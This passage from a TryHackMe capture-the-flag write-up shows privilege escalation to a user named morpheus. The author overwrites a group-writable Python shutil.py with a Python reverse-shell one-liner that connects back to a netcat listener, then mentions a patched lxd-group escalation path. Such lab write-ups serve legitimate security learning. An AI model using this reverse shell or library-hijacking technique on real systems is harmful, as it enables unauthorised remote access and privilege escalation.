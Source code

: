There is one interesting thing - `shutil`. Maybe we can do something with it. Let's search for it
```
$ find / -name shutil*  2>>/dev/null
/usr/lib/python3.8/shutil.py
/usr/lib/python3.8/__pycache__/shutil.cpython-38.pyc
/usr/lib/byobu/include/shutil
[...]
$ ls -l /usr/lib/python3.8/shutil.py
-rw-rw-r-- 1 root death 51474 Aug  7 23:52 /usr/lib/python3.8/shutil.py
```

Wait, we can read and write to it - Let's put reverse shell here

But first - start netcat listener on your machine
```
$ nc -lvnp 2137
```

Then, we need to open this file in some editor and replace it's content with reverse shell
```
$ nano /usr/lib/python3.8/shutil.py

# And inside:
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR IP",2137));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Of course relpace `YOUR IP` with your actual ip from tryhackme VPN

Then we can save and exit it

After a while we  get shell - who are we?

```
$ whoami
morpheus
```

We are in his `home` dir (You can check it with `pwd`) - let's grab the flag
```
$ cat morpheus_flag.txt
[REDACTED]
```

And that's it, machine pwned - if you want to read about patched unintended path of privesc - Sure go ahead. You might learn something

### Escalation pt.3 - Morpheus the unintended path

Note: This is unintended path and has been patched (It worked for 2 days)
But I leave it here as relict and for you to learn another privesc technique

It doesn't work, because `lucien` is not the part of `lxd` group



To escalate to morpheus I went back to `lucien` user

```
$ su lucien
```
He is a part of `lxd` group - we can use lxd to [Escalate Privileges](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation#method-2)
